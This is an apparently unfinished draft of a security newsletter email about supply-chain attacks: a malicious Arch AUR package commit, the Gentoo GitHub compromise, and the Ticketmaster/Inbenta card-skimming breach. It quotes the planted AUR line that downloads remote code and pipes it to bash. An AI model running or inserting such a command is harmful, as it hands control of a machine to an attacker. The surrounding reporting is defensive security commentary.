 ```yaml
---
layout: email
title: Supply-chain attacks: Arch, Gentoo, and Ticketmaster UK
---
```


Follow-up to previous KATTFAKTA - mention that risk based has the issue where company just accepts risks even if it shouldn’t


This commit:
https://aur.archlinux.org/cgit/aur.git/commit/?h=acroread&id=b3fec9f2f16703c2dae9e793f75ad6e0d98509bc

Right at the bottom, the line 
```
curl -s https://ptpb.pw/~x|bash -&
```
has been added 

https://www.bleepingcomputer.com/news/security/malware-found-in-arch-linux-aur-package-repository/



Good morning.

My last email contained a fairly significant typo in the third-last paragraph: 'proscriptive' vs 'prescriptive'. Hopefully most of you knew what I meant!

### Dot-terminating domain names for domain blacklisting

A quick one to start with: Sucuri has an excellent [blog post](https://blog.sucuri.net/2018/07/coinimp-cryptominer-and-fully-qualified-domain-names.html) regarding the use of dot-terminated domain names to bypass domain blacklists. It's a cute trick, and yet another example of why blacklists are a fragile security measure.




### Gentoo's GitHub account hacked

Last week, the Gentoo Linux GitHub project was compromised. From [The Register](https://www.theregister.co.uk/2018/06/28/gentoo_linux_github_hacked/):

>The Linux distro's officials sounded the alarm on Thursday, revealing someone managed to break into its GitHub organization account to modify software and webpages.
>
>Basically, if you downloaded and installed materials from Gentoo via GitHub, you might be compromised by bringing in malicious code. And until the all clear is given, you should avoid fetching anything from the project's 'hub org account.

Gentoo can best be described as a niche Linux distribution: it's premise is that all applications are compiled from source locally, rather than being downloaded as pre-compiled binaries (like traditional software).

Initial predictions regarding the compromise were that a project maintainer's GitHub password had been guessed, and that they must not have had [two-factor authentication](https://help.github.com/articles/about-two-factor-authentication/) enabled. Sure enough, in the follow-up [incident report](https://wiki.gentoo.org/wiki/Project:Infrastructure/Incident_Reports/2018-06-28_Github):

>The attacker gained access to a password of an organization administrator. Evidence collected suggests a password scheme where disclosure on one site made it easy to guess passwords for unrelated webpages.

In other words, the admin had the password `"Kangaroo2017!"` on another site, and `"Kangaroo2018!"` on GitHub. Compromise of the first led to compromise of the second, and a lack of two-factor authentication meant game-over.

This sort of attack is entirely predictable, and the reason that [good password practices](https://markeldo.com/Email-update-Security-trade-offs/) recommend creating unique passwords for every website/service, storing these unique passwords in a password manager, and using two-factor authentication (2FA) wherever you can. 

This has been recommended practice for many years now, and an administrator for a major Linux distribution's GitHub project should have known better. Still, it's impossible to force people to use unique passwords, and it's becoming increasingly obvious that if you don't mandate the use 2FA, users are unlikely to enable it themselves. 

For any non-trivial systems, we as an industry need to stop relying on users being conscientious, and start making these protections mandatory.

### Ticketmaster UK supply-chain attack

Ticketmaster UK has had a bad few weeks. From [The Register](https://www.theregister.co.uk/2018/06/27/ticketmaster_support_bot_hack/):

> "On Saturday, June 23, 2018, Ticketmaster UK identified malicious software on a customer support product hosted by Inbenta Technologies, an external third-party supplier to Ticketmaster," the ticket biz said in a statement.

Inbenta is a provider of the sort of "chat bot" help systems you see on many websites these days. Ticketmaster was embedding Inbenta's code on their payments page, which meant that code had visibility of any credit card details entered by Ticketmaster's customers.

Supply-chain attacks are something we've covered previously (most notably [here](https://markeldo.com/Email-update-The-cabinet-files-and-supply-chain-attacks-at-scale/) and [here](https://markeldo.com/Email-update-Cisco-and-Cryptomining/)), and this is a classic example. Ticketmaster had put Inbenta in a highly privileged position in their system, and the attacker—rather than attacking Ticketmaster directly—compromised Inbenta and leveraged this privileged access to steal credit card details.

Ticketmaster's main fault was putting Inbenta in a priviliged positon they didn't even need, increasing the risk of compromise for no tangible benefit.

From the [statement](https://www.inbenta.com/en/inbenta-and-the-ticketmaster-data-breach/) by the CEO of Inbenta, Jordi Torras:

>Upon further investigation by both parties, it has been confirmed that the source of the data breach was a single piece of JavaScript code, that was customized by Inbenta to meet Ticketmaster’s particular requirements. This code is not part of any of Inbenta’s products or present in any of our other implementations.
>
>Ticketmaster directly applied the script to its payments page, without notifying our team. Had we known that the customized script was being used this way, we would have advised against it, as it incurs greater risk for vulnerability. The attacker(s) located, modified, and used this script to extract the payment information of Ticketmaster customers processed between February and June 2018.

In short, Ticketmaster screwed up

They're 

https://www.troyhunt.com/the-javascript-supply-chain-paradox-sri-csp-and-trust-in-third-party-libraries/
